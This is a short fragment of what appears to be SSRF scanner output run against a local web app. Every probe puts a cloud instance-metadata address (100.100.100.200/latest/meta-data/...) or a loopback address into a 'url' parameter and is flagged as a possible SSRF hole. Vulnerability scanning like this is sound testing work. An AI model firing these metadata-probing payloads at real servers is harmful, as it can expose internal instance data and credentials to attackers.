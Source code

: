  ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2F` _(POST)_
- Testing: `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2Fimage-id`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2Fimage-id` _(POST)_
- Testing: `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2Finstance-id`
 ⚠️ - **Possible SSRF vulnerability at:** `http://localhost:4200/?url=100.100.100.200%2Flatest%2Fmeta-data%2Finstance-id` _(POST)_
- Testing: `http://localhost:4200/?url=127.0.0.0`
